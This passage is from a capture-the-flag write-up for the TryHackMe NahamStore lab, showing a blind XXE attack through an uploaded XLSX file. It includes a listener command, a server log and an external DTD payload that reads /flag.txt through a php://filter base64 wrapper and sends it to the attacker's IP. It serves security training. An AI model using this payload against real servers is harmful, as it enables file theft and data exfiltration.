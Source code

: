 ```
┌──(root🌸siunam)-[~/ctf/thm/ctf/NahamStore]
└─# python3 -m http.server 80  
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

- Upload the XLSX file to `nahamstore.thm/staff`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a49.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/TryHackMe/NahamStore/images/a50.png)

**We received a GET request for `xxe.dtd`:**
```
10.10.46.5 - - [21/Sep/2022 04:36:33] "GET /xxe.dtd HTTP/1.0" 200 -
```

But the `/etc/passwd` is missing. Looks like there is a filter or restriction.

**To bypass that, I'll change the dtd payload from `file:///etc/passwd` to `php://filter/convert.base64-encode/resource=/flag.txt`.**

**xxe.dtd:**
```dtd
<!ENTITY % d SYSTEM "php://filter/convert.base64-encode/resource=/flag.txt">
<!ENTITY % c "<!ENTITY rrr SYSTEM 'http://10.18.61.134/%d;'>">
```
